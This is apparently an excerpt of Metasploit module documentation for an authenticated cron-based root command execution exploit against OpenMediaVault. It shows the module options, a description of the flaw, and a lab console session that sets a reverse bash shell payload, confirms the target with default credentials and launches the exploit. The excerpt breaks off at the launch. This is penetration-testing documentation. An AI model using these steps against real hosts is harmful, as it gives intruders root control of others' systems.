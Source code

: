 ```msf
Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
  PERSISTENT  false           yes       Keep the payload persistent in Cron. Default value is false, where the payload is removed
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path of the OpenMediaVault web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  USERNAME   admin            yes       The OpenMediaVault username to authenticate with
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to liste
                                      n on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  OpenMediaVault allows an authenticated user to create cron jobs as root on the system.
  An attacker can abuse this by sending a POST request via rpc.php to schedule and execute
  a cron entry that runs arbitrary commands as root on the system.
  All OpenMediaVault versions including the latest release 7.3.1-1 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2013-3632
  https://packetstormsecurity.com/files/178526
  https://attackerkb.com/topics/zl1kmXbAce/cve-2013-3632


View the full module info with the info -d command.
```
### openmediavault_7.0-32-amd64.iso appliance Unix command - cmd/unix/reverse_bash
```msf
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > check

[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] 192.168.201.6:80 - The target is vulnerable. Version 7.0.pre.32
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit
```
